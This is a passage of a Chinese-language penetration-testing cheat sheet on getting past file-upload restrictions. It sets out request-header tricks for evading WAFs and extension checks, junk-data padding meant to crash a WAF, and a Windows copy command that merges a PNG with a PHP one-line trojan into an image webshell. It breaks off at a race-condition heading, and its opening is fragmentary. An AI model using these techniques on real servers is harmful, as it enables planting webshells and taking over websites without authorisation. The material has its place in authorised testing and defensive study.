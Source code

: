   删除掉`ontent-Type: image/png`只留下`c`，将`.php`加`c`后面即可，但是要注意额，双引号要跟着`c.php&#34;`

* 等效替换绕过

  ```
  Content-Type: multipart/form-data; boundary=---------------------------471463142114		// 原
  Content-Type: multipart/form-data; boundary =---------------------------471463142114	// 修改
  ```

  `boundary`后面加入空格。

* 修改编码绕过

  使用`UTF-16`、`Unicode`、`双URL编码`等等

* WTS-WAF 绕过上传

  ```
  Content-Disposition: form-data; name=&#34;up_picture&#34;; filename=&#34;xss.php&#34;
  ```

  添加回车

  ```
  Content-Disposition: form-data; name=&#34;up_picture&#34;; filename=&#34;xss.php&#34;
  ```

* 百度云上传绕过

  在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
  `Content-Disposition: form-data; name=&#34;up_picture&#34;; filename=&#34;xss.jpg .Php&#34;`

* 填充垃圾数据，造成溢出后使WAF崩掉

  ```
  Content-Disposition: 字段溢出即可 比如Content-Disposition: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA一直加就行了十万&#43;&#43;
  ```

#### getimagesize()

制作图片马

准备两个文件：一个是png，一个是php一句话木马

windows环境下：

```
copy a.png /b &#43; a.php /a 3.php 
```

`/b`: 指定以二进制格式复制、合并文件，用于图像或者声音类文件 

`/a`: 指定以ascii格式复制、合并文件用于txt等文本类文件

输出一个php文件，得到图片🐎

### 服务端 · 条件竞争

#### 原理

由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。
